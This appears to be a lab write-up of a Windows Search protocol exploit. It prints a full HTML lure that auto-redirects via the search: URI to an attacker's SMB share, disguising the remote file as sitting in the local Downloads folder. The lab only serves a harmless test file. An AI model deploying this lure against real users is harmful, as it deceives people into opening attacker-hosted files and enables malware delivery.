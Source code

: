 - OS - Windows 10 1909
- Build - 18363.1139
## Setting Up

#### Attacker's Machine
- There is a SMB share set up on the attacker's machine.
- The files are accessible to everyone on the network.![](Windows%20Search%20Exploit/Attachments/Pasted%20image%2020240708021919.png)
- For testing purposes, there is a text file ( Hello.txt )  in the folder. ![](Windows%20Search%20Exploit/Attachments/Pasted%20image%2020240708024507.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads"
    <p><a href="search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads">Hello</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Windows%20Search%20Exploit/Attachments/Pasted%20image%2020240708023819.png)
- Opening Windows Explorer![](Windows%20Search%20Exploit/Attachments/Pasted%20image%2020240708024225.png)
	1. Windows has searched for "Hello.txt" .
	2. It appears as if the file is in "Downloads" .
	3. The actual location of the file is "\\\\Desktop-attacke\\smb\\Hello.txt"  .

- If the Victim uses a different layout, the actual location will not be visible.![](Windows%20Search%20Exploit/Attachments/Pasted%20image%2020240708024753.png) 